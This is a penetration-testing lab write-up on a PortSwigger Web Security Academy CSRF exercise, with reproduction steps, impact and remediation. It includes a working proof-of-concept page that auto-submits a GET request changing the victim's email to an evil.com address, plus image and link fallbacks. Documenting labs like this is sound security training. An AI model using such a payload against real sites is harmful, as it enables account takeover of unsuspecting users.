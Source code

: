# PS-006 — CSRF: Missing/Invalid Token
**Date / Analyst:** 2025-09-08 — Christopher Araque
**Target:** PortSwigger WSA (CSRF basic, token missing/ignored)

## TL;DR
A state-changing action (e.g., change email) succeeds without a valid CSRF token.
**Impact:** attacker can alter account data via a lure link or auto-submitting page.
**Fix:** per-request, unpredictable tokens; validate Origin/Referer; SameSite cookies.

## Scope & Context
- Endpoint: `/my-account/change-email`
- Auth context: logged-in user (wiener)
- Method: GET (token ignored)
- Token present, but ignored for GET; request succeeds without CSRF validation.
## Steps to Reproduce
1) Log in. Find a state-changing action (change email/password/add comment).
2) Capture request (Burp/DevTools). Confirm token is missing/ignored/static.
3) Build a PoC page that auto-submits the same request from a third-party context.
4) While logged in, open the PoC → observe server-side change.

## Evidence
- Request/Response: [ps-006-request.txt](../../evidence/ps-csrf/ps-006-request.txt)
- Screenshot: ![PS‑006](../../evidence/ps-csrf/ps-006-screenshot.png)

## PoC (edit action/fields)
```html
Head:
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Cache-Control: no-store

<!doctype html>
<html>
  <body>
    <form action="<lab-host>web-security-academy.net/my-account/change-email" method="GET">
      <input type="hidden" name="email" value="victim%40evil.com">
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>

Body:
<!doctype html>
<html>
  <body>
    <!-- Auto-submit GET request that bypasses CSRF token enforcement -->
    <form action="https://<lab-host>web-security-academy.net/my-account/change-email" method="GET">
      <input type="hidden" name="email" value="victim%40evil.com">
    </form>
    <script>document.forms[0].submit();</script>

    <!-- Fallback (works even with JS off): -->
    <img src="https://<lab-host>web-security-academy.net/my-account/change-email?email=victim%40evil.com" style="display:none">
    <noscript>
      <a href="https://<lab-host>web-security-academy.net/my-account/change-email?email=victim%40evil.com">Click here</a>
    </noscript>
  </body>
</html>

## Impact
Email change ➜ password reset ➜ potential takeover

## Recommended Remediation
- Enforce **per-request, unpredictable CSRF tokens** bound to user/session.
- **Validate Origin/Referer** on state-changing requests.
- Set cookies with **SameSite=Lax/Strict**, **HttpOnly**, **Secure**.
- Deny state-changing **GET**; prefer **POST** with CSRF defenses.

## Notes
- If token exists but action still succeeds when removed/altered → “token not validated”.
- If token is static or leaked in GET, document the weakness.
